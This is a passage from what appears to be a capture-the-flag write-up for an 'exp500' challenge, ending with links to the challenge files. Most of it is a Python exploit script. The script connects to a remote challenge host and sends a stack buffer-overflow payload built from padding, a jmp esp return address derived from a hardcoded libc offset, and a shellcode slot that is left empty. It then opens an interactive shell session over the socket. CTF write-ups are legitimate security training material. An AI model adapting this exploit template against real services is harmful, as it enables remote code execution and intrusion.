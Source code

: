 shellcode = ""                                                                 
                                                                                
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                           
# s.connect(('127.0.0.1', 12345))                                               
s.connect(('128.238.66.213', 12345))                                            
f = s.makefile('rw', bufsize=0) 

libc_offset = 0xb7e32000                                                          
                                                                                  
jmp_esp = 0x0014853F + libc_offset                                                                                     
                                                                                  
first_part =  "D"*124                                                                                            
second_part = "A"*int(0x38)  + "BBBB" + struct.pack("I", jmp_esp) + shellcode
                                                                                  
payload = first_part + second_part + "\n"                                         
                                                                                  
f.write(payload)                                                                  
                                                                                  
t = telnetlib.Telnet()                                                            
t.sock = s                                                                        
t.interact() 
</pre>

<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp500.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-5.46.51-PM.png